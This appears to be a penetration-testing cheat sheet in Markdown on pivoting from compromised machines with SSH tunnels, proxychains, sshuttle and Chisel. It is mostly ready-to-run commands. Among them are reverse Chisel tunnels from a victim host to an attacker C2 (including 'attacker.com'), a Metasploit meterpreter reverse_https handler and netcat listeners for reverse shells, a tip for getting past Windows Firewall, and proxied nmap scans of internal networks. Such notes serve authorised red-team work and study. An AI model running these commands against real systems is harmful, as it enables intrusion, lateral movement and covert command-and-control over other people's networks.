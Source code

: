 # SSH Tunneling + SSHuttle and Chisel


Used for pivoting

## Local port forwarding
```bash
ssh -v -N -L localPort:targetIp:targetPort user@sshGateway <-i private_key>
```

## Remote port forwarding
* Below is the preparation that is needed to be done on the SSH Server(Pivot)
```bash
sudo echo "GatewayPorts clientspecified" >> /etc/ssh/sshd_config
sudo systemctl restart ssh
```
* Command:
```bash
ssh -R sshGatewayIp:sshGatewayPort:localIp:localPort user@sshGateway
ssh -R 127.0.0.1:2222:127.0.0.1:22 ubuntu@11.22.33.44
```

## Dynamic port forwarding with proxychains
* Has limitations: Produces inaccurate results (i.e. nmap)[^2][^3][^4]

* Proxychains preparation (Change localPort):
```bash
# Normal
sudo echo "socks4 127.0.0.1 localPort" >> /etc/proxychains.conf
```
* Command to establish connection(Basic command is just "-D"):
```bash
ssh -NfD localPort user@sshGateway
```
* Make use of proxychains:
```bash
proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
proxychains msfconsole 
proxychains rdesktop targetIP -u user -p password -g 90%
proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
proxychains firefox
```

## Dynamic port forwarding with SSHuttle
* **Recommended** and does not need root on pivot machine)
* Has limitations: Does not really work with nmap
   * Use a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) instead on the compromised host
   
```bash
sshuttle -v -r user@sshGateway network/netmask

# Using public key authentication:
sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
```

## Chisel
* **Recommended** and does not need root on pivot machine) [^5]
* Alternative for SSH(Local, Remote and Dynamic) especially on pivoting machines
    * Built on Go
    * Has ready made binary releases on Github which works on a lot of Operating Systems[^6]
        * Better to compile though
   
```bash
# Server (On your attacking machine[Kali])
./chisel server -v -p 8000 --reverse

# Port Forwarding (Commonly on the 1st compromised machine [Pivot Machine])
## Listen on Kali 4444/tcp, forward to 10.10.10.240 port 80
./chisel client -v <YOUR_KALI_IP>:8000 R:4444:10.10.10.240:80

```

* Remote/Reverse Forwarding (for *reverse connections* [i.e. reverse_tcp])
    * Quick Diagrams for the visual people
        * [INTERNET_ISOLATED_MACHINE] --> [Pivot_Machine] --(FIREWALL)--(INTERNET)-- [C2/Kali]
        * making it seamless as if:
        * [INTERNET_ISOLATED_MACHINE] =============================================> [C2/Kali]
    * From Kali: `./chisel server -v -p 8000 --reverse` From C2: `./chisel server -v -p 443 --reverse` 
    * Commonly on the 1st compromised machine [Pivot Machine]
        * Let us call this [Pivot Machine]: *PHISHEDVICTIM01.acme.local*
        * *BEWARE*: May trigger _Windows Firewall Allow/Deny_ pop-up window on this host upon running. May need to allow first or create a manual firewall entry via cli or choose a firewall port already allowed but unused by a service.
        * The command below will direct any traffic it receives on 3333/tcp to your Kali 3333/tcp

            ```batch
            chisel.exe client -v <YOUR_KALI_IP>:8000  3333:127.0.0.1:3333
            #OR
            chisel.exe client -v <YOUR_C2_domain>:443 3333:127.0.0.1:3333
            ```

    * After the command above, execute the command below on your Kali/c2 machine or something similar (i.e. `exploit/multi/handler`)
        ```bash
        nc -lnvp 3333
        #OR
        msfconsole -q -x "use exploit/multi/handler;set LPORT 3333; set LHOST eth0; set payload windows/x64/meterpreter/reverse_https;run -jz"
        ```
    * Now on the [INTERNET_ISOLATED_MACHINE]/target/victim (without direct connection to your C2/Kali) like the DC or ICS.
        * Test
            ```batch
            curl.exe PHISHEDVICTIM01.acme.local:3333
            ```
        * Use a one-liner powershell
        * C2 payload to point to `PHISHEDVICTIM01.acme.local:3333`

* Chisel Socks Proxy
    * Using `reverse` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --reverse
            sudo echo "socks5 127.0.0.1 1080" > /etc/proxychains.conf
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 R:socks
            or
            chisel.exe client -v attacker.com:8000 R:socks
            or
            chisel.exe client -v 192.168.1.5:8000 R:socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * Using `socks5` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --socks5
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 socks
            or
            chisel.exe client -v attacker.com:8000 socks
            or
            chisel.exe client -v 192.168.1.5:8000 socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * TIP
        * If the chisel server is on a cloud C2, and you want to connect from your kali(separate machine)
            * Perform step **c.** on your Kali instead, no need to do it on the chisel server(c2)
                * Just change `ssh -NfD 1080 127.0.0.1` to `ssh -NfD 1080 ubuntu@c2domain.com`


[^1]: [not so pro](https://blog.notso.pro/2019-10-24-tactical-debriefing1/)
[^2]: [MrW0r57](https://mrw0r57.github.io/2020-05-31-linux-post-exploitation-10-4/)
[^3]: [CodeProject - Grant Curell](https://www.codeproject.com/tips/634228/how-to-use-proxychains-forwarding-ports)
[^4]: [NetSec](https://netsec.ws/?p=278)
[^5]: [Download from Github](https://github.com/jpillora/chisel)
[^6]: [0xdf](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
